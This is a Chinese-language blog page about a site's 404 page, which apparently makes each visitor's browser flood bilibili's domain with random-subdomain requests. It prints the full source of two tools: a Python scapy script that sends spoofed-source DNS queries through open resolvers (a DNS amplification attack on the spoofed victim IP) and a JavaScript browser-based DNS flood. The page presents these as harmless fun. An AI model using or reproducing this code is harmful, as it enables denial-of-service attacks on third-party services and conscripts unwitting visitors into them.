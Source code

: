 ```yaml
---
layout: page
permalink: "404page.html"
title:  "关于 404 页面"
---
```


大家在访问本站没有的页面时是不是会跳转到404页面呢？细心的人肯定会发现网页下方有一段话

>事实上你访问一次404页面就相当于攻击了b站200次哦~

很有趣对吧？

实际上这是使用了*cnBeining*的**DNSTester**。源码如下：

###Python版

{% highlight python %}
#!/usr/bin/env python
#coding:utf-8
# Author:  Beining --<>
# Purpose: A most easy but powerful DNS tester
# Created: 01/15/2015

import os
import sys
import socket
import random
from multiprocessing.dummy import Pool as ThreadPool
from scapy import *
from scapy.all import *
import csv

global DNS_IP_LIST
DNS_IP_LIST = []
global FAKE_IP
FAKE_IP = ''
global SUCCESS
SUCCESS = 0

#----------------------------------------------------------------------
def dns_amp(qname_address):
    """"""
    global SUCCESS
    dns_ip = random.choice(DNS_IP_LIST)
    a = IP(dst=dns_ip,src=FAKE_IP) 
    b = UDP(dport=53)
    c = DNS(id=1,qr=0,opcode=0,tc=0,rd=1,qdcount=1,ancount=0,nscount=0,arcount=0)
    c.qd=DNSQR(qname=qname_address,qtype=1,qclass=1)
    p = a/b/c
    try:
        send(p)
        SUCCESS += 1
    except KeyboardInterrupt:
        print('FATAL: Quit!')
        print('Success: ' + str(SUCCESS))
        exit()
    except Exception as e:
        print('WARNING: DNSTest failed: %s' % e)
        traceback.print_exc()

#----------------------------------------------------------------------
def main(address, time, length, thread_num, fake_ip):
    """"""
    domain_list = [''.join(map(lambda xx:(hex(ord(xx))[2:]),os.urandom(int(length)))) + '.' + str(address) for i in range(int(time))]
    pool = ThreadPool(int(thread_num))
    results = pool.map(dns_amp, domain_list)
    #close the pool and wait for the work to finish 
    pool.close() 
    pool.join()

#----------------------------------------------------------------------
def read_dns_ip(filename = './nameservers.csv'):
    """"""
    dns_ip_list = []
    with open(filename, 'rb') as f:
        reader = csv.reader(f)
        for row in reader:
            if reader.line_num == 1:  
                    continue
            dns_ip_list.append(row[0])
    return dns_ip_list

#----------------------------------------------------------------------
if __name__=='__main__':
    address = str(sys.argv[1])
    time = int(sys.argv[2])
    thread_num = int(sys.argv[3])
    try:
        FAKE_IP = str(sys.argv[4])
    except:
        FAKE_IP = socket.getaddrinfo("www." + address, 80, 0, 0, socket.SOL_TCP)[0][4][0]
    try:
        dns_filename = str(sys.argv[5])
    except:
        dns_filename = './nameservers.csv'
    try:
        length = int(sys.argv[6])
    except:
        length = random.randint(6, 32)
    print('Reading DNS IP list...')
    DNS_IP_LIST = read_dns_ip(dns_filename)
    print('Start!')
    main(address, time, length, thread_num, FAKE_IP)
    print('Done! Success: ' + str(SUCCESS))
{% endhighlight %}

[Github](https://github.com/cnbeining/DNSTester)

###Javascript版：

{% highlight javascript %}
/*!
 * DNSTester.js 0.0.35
 * https://github.com/cnbeining/DNSTester.js
 * http://www.cnbeining.com/
 *
 * Includes jQuery
 * http://jquery.com/
 * 
 * Copyright 2015 Beining
 * Released under the GNU GENERAL PUBLIC LICENSE Version 2
 * https://github.com/cnbeining/DNSTester.js/blob/master/LICENSE
 *
 */
var COUNT = 0;
var STARTTIME = (new Date).getTime();
var DOMAIN = ".baidu.com/"; //Change me in caller
var MAX_COUNT = 50000;  //Change me in caller
var TPS = 100;  //Change me in caller
var TIMERID = 0; //To stop the test
function makeid_old(length)
{
    var text = "";
    var possible = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
    for( var i=0; i < length; i++ )
        text += possible.charAt(Math.floor(Math.random() * possible.length));
    return text;
}
function makeid_new(len) {
    //Only avalable in new browsers
    var arr = new Uint8Array((len || 40) / 2);
    window.crypto.getRandomValues(arr);
    text = [].map.call(arr, function(n) { return n.toString(16); }).join("");
    return text;
}
makeid = makeid_new; //asserting
try {
    test_msg = makeid(5)
}
catch(err) {
    console.log("New function not supported! " + err);
    makeid = makeid_old;
}
function r_send2() {
    if ((MAX_COUNT < 1 || COUNT >= MAX_COUNT) != true) {
          get("https://" + makeid(Math.floor((Math.random() * 64) + 1)) + DOMAIN) // NEVER FORGET, in case you use HTTPS
      };
    if (COUNT % 1000 == 0) { //report every 1000 times
          console.log('Done: ' + COUNT.toString())
      };
}
function get(a) {
    var b;
    $.ajax({
        url: a,
        dataType: "script",
        timeout: 1E-2, //So fail immediately, but good enough to stress DNS
        cache: !0,
        // beforeSend: function() {
        // requestTime = (new Date).getTime()
        // },
        complete: function() {
            COUNT += 1;
        }
        })
}
function r_send(a) {
    TIMERID = setInterval("r_send2()", a)
}
{% endhighlight %}

大家可以在[这里](/js/dnstester.js)或者[Github](https://github.com/cnbeining/DNSTester.js)上找到源码和使用方式。

***

404页面中设置的只有2秒，每秒100次而已，对b站基本上一点影响也没有，除非有很多人大量访问404页面，同样也是不可能的，所以只是增加404娱乐性，大可不必担心。

所以就来玩玩吧~ [404 Not Found~](http://fuckbilibili.com/404.html)

点开导航栏中的*cnBeining*页面，你会发现更多有趣的东西~